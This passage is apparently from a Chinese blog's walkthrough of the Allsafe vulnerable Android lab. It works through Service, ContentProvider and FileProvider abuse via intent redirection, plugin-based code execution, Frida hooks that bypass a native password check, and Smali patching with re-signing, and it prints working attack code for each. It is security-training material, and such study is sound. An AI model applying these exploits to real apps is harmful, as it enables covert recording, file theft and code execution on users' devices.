        super.onDestroy();
        unbindService(serviceConnection);
    }
}

```

参考官方文档 <https://developer.android.com/develop/background-work/services?#LifecycleCallbacks> ，生命周期如下：



#### Service风险

Service风险主要是设置为对外导出的同时，代码实现逻辑又有问题导致的权限提升，消息伪造，拒绝服务等。

来看靶场APK：





声明了一个导出Service，Service中进行了录音，如果该应用申请到了录音权限。那我们的应用不需要录音权限也可以通过这个Service去录音，攻击代码如下：

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("infosecadventures.allsafe","infosecadventures.allsafe.challenges.RecorderService"));
startService(intent);

```

另外还需要在AndroidManifest.xml声明权限：

```
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>

```

或者：

```
<queries>
    <package android:name="infosecadventures.allsafe"/>
</queries>

```

但以上攻击代码在Android 8.0以上可能会出现如下报错：

```
android.app.BackgroundServiceStartNotAllowedException: Not allowed to start service Intent { cmp=infosecadventures.allsafe/.challenges.RecorderService }: app is in background uid UidRecord{1652d u0a141 LAST bg:+5m38s65ms idle change:cached|procstate procs:0 seq(60632,60325)} caps=------
    at android.app.ContextImpl.startServiceCommon(ContextImpl.java:1945)
```

原因见 <https://developer.android.com/about/versions/oreo/background#services>

可以改为如下服务启动方式：

```
startForegroundService(intent);

```

实际案例可参考：<https://bbs.kanxue.com/thread-269255.htm>

### Insecure Providers

> We got a report that our notes database leaked through an insecure content provider. Fortunately, the dev team said it's easy to secure Android inter process communication. The app also provides access to some files which we share with other apps...
>
> Can you check if the implementation is good enough? Allsafe can't afford another sensitive file leak.

看靶场APK中这两个Provider：





其中DataProvider是导出的，直接可供外部应用查询，可以用adb查询：

```
adb shell content query --uri "content://infosecadventures.allsafe.dataprovider"

```

FileProvider是非导出的，但是设置了`android:grantUriPermissions="true"`，具体说明可参考官方文档： <https://developer.android.com/guide/topics/manifest/provider-element?#gprmsn> ，这个属性大概就是设置是否可以向无权访问Content Provider的组件授予临时权限，用法就是在启动组件的Intent中设置`FLAG_GRANT_READ_URI_PERMISSION`和要授权的URI。

FileProvider的meta-data中设置了可访问路径为：`/data/data/<package name>/files`

再继续看APK中有个导出的ProxyActivity，会使用外部传入的Intent去启动任意其他Activity：




那么攻击者可以构造一个设置`FLAG_GRANT_READ_URI_PERMISSION`的Intent，然后传入ProxyActivity，ProxyActivity打开攻击者的Activity，这时攻击者的Activity就有了Content Provider的临时权限，就能读取文件了，读取`/data/data/infosecadventures.allsafe/files`文件的攻击代码如下：

```
public class ReadActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_read);

        try {
            InputStream inputStream = getContentResolver().openInputStream(getIntent().getData());
            Log.d(TAG,new Scanner(inputStream).useDelimiter("\\A").next());
        } catch (FileNotFoundException e) {
            throw new RuntimeException(e);
        }
    }
}

```

```
<activity
    android:name=".ReadActivity"
    android:exported="true" />

```

```
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent extraIntent = new Intent();
        extraIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        extraIntent.setData(Uri.parse("content://infosecadventures.allsafe.fileprovider/files/test.txt"));
        extraIntent.setClass(this,ReadActivity.class);

        Intent intent = new Intent();
        intent.setComponent(new ComponentName("infosecadventures.allsafe","infosecadventures.allsafe.ProxyActivity"));
        intent.putExtra("extra_intent",extraIntent);

        startActivity(intent);
    }
}

```

### Arbitrary Code Execution

> There are 2 ways to execute arbirary code in this application and they are located in a single vulnerable class.
>
> The first option is to launch code from third-party apps with no security checks. The second option is related to DEX libraries. May the code be with you!



`invokePlugins()`方法中通过`createPackageContext(packageName, Context.CONTEXT_IGNORE_SECURITY|Context.CONTEXT_INCLUDE_CODE)`创建了上下文，并且反射执行了其中的方法，在Android官方文档中已经阐述了可能存在恶意代码执行的风险：<https://developer.android.com/privacy-and-security/risks/create-package-context>

创建一个包名为infosecadventures.allsafe.plugin的攻击应用，攻击代码如下：

```
package infosecadventures.allsafe.plugin;

import android.os.Bundle;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

public class Loader extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_loader);
    }

    public static void loadPlugin() {
        try {
            Log.d("Exec",new java.util.Scanner(Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\A").next());
        } catch (Exception e) {
            Log.d("Exception",e.toString());
        }
    }
}

```

通过`createPackageContext().getClassLoader()`加载的攻击应用中的类好像有缓存，通过卸载攻击应用再重新安装可以解决。

打开靶场对应界面后查看日志：



whoami执行结果正是靶场应用的UID：



`invokeUpdate()`方法是从APK文件中加载类，但貌似文件路径有点问题，我猜作者应该是准备这样写的：

```
new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS) + "/allsafe_updater.apk")

```

### Native Library

> There's a native library compiled with the application that is used to validate the password below. By reverse engineering the library, you'll easily find the password. However, your task here is to use Frida to hook the method in the library and bypass the password check.

目的是使用Frida Hook Native层的so函数，查看代码：



使用了从native\_library库中的checkPassword方法进行密码检查。

测试发现其实直接Hook Java层Native函数就行：

```
Java.perform(() => {
    const NativeLibrary = Java.use("infosecadventures.allsafe.challenges.NativeLibrary");
    NativeLibrary.checkPassword.implementation = () => {
        return true;
    }
});

//frida -U -f infosecadventures.allsafe -l hook_checkPassword.js

```



不过还是来看一下怎么Hook so函数。解压APK，在lib目录下有4个目录，这些so文件功能一样，但使用的汇编代码不一样。arm64-v8a目录下是arm64的so文件，armeabi-v7a目录下是arm32的so文件。在不同的平台下，系统会自动选择对应文件夹下的so文件来使用。



当前测试环境是arm64，将对应so文件放入ghidra分析很容易找到对应函数为`Java_infosecadventures_allsafe_challenges_NativeLibrary_checkPassword`，这也满足JNI静态注册方式的命名规则。



另外其实也可以用Frida枚举模块的导出表（在so文件的开发中，一般会有一些导出函数，如JNI静态注册的函数、需要导出给其他so文件使用的函数，以及JNI\_OnLoad函数等。这些函数会出现在该so文件的导出表中）：

```
const module = Process.findModuleByName("libnative_library.so");
const exports = module.enumerateExports();
for (let i in exports) {
    if (exports[i].type == "function"){
        console.log(JSON.stringify(exports[i]));
    }
}

```

Java层声明的native方法到了so层会额外增加两个参数，第1个参数是`JNIEnv*`类型，可以调用里面的很多方法来完成C/C++与Java的交互，第2个参数是`jclass`或`jobject`，如果native方法是静态方法，这个参数就是jclass，代表native方法所在的类，如果native方法是实例方法，这个参数就是jobject，代表native方法所在的类实例化出来的对象。最终Hook的代码为：

```
const module = Process.findModuleByName("libnative_library.so");
const funAddr = module.getExportByName("Java_infosecadventures_allsafe_challenges_NativeLibrary_checkPassword");
Interceptor.attach(funAddr, {
    onEnter: function(args) {
        const env = Java.vm.getEnv();

        console.log(args[0]);   // JNIEnv*
        console.log(args[1]);   // jobject
        console.log(args[2]);   // jstring，JNI中的引用类型，不是直接的C字符串指针，而是Java字符串在JNI层的句柄

        console.log(env.getStringUtfChars(args[2]).readCString());
    }, onLeave: function(retval) {
        console.log(retval.toInt32());
        retval.replace(1);
    }
});

//frida -U -l hook_native.js -p $(adb shell pidof infosecadventures.allsafe)

```

### Smali Patch

> Allsafe hired a new Android developer who made a beginner mistake setting up the firewall. Can you modify the decompiled Smali code in a way that the firewall is active by default?

#### Android架构

参考 <https://developer.android.com/guide/platform> ，Android基于Linux内核，Android5.0之前运行时是Dalvik，5.0及之后是ART。


Java代码编译生成class文件，但class文件中存在很多冗余信息，通过Dex编译器可以将多个class文件优化、打包生成dex文件，即一种专为Android运行时设计的字节码格式，dex文件反汇编之后就是Smali代码（Smali是dex文件中的Dalvik字节码的助记符表示，是一一对应关系）（使用baksmali反汇编一个dex文件后会输出一系列smali文件，每个文件对应dex文件中的一个类），APK本质是个zip压缩包，其中包含AndroidManifest.xml、dex文件、资源文件、应用签名信息等。

#### 使用Apktool进行反编译和重打包

靶场APK是要求修改smali文件然后重打包使如下if处的条件为true：



反编译靶场APK：

```
apktool d allsafe.apk

```

将102行的INACTIVE改为ACTIVE即可：



重打包和签名：

```
alias apksigner="~/Library/Android/sdk/build-tools/34.0.0/apksigner"
alias zipalign="~/Library/Android/sdk/build-tools/34.0.0/zipalign"
keytool -genkeypair -alias mykey -keyalg RSA -keysize 2048 -validity 365 -keystore mykeystore.keystore

apktool b allsafe -o new_allsafe.apk
zipalign 4 new_allsafe.apk new_allsafe_aligned.apk
apksigner sign --ks mykeystore.keystore --ks-key-alias mykey --ks-pass pass:123456 new_allsafe_aligned.apk

```

安装：

```
adb uninstall infosecadventures.allsafe
adb install new_allsafe_aligned.apk

```

安装时可能会遇到`Failure [INSTALL_FAILED_INVALID_APK: INSTALL_FAILED_INVALID_APK: Failed to extract native libraries, res=-2]`，需要修改AndroidManifest.xml文件中`android:extractNativeLibs`为true然后重新打包。



## 总结

本来想同时写完几个靶场（[InsecureShop](https://github.com/hax0rgb/InsecureShop)、[ovaa](https://github.com/oversecured/ovaa)、[Frida-Labs](https://github.com/DERE-ad2001/Frida-Labs)），但做完这第一个发现笔记已经很长了，目前对Android应用层漏洞也有了初步认知。此外还学习了HackerOne上大量漏洞案例和 [Android APP漏洞之战系列](https://github.com/WindXaa/Android-Vulnerability-Mining)、[Android WebView安全攻防指南2020](https://bbs.kanxue.com/article-14155.htm) 等文章，很多都从漏洞和组件类型的角度进行了讲解，不过站在攻击者视角，我更倾向从攻击面，攻击方式，最终危害的角度去思考，结合真实漏洞案例，我以自己的理解对Android应用层漏洞做了下梳理和总结：


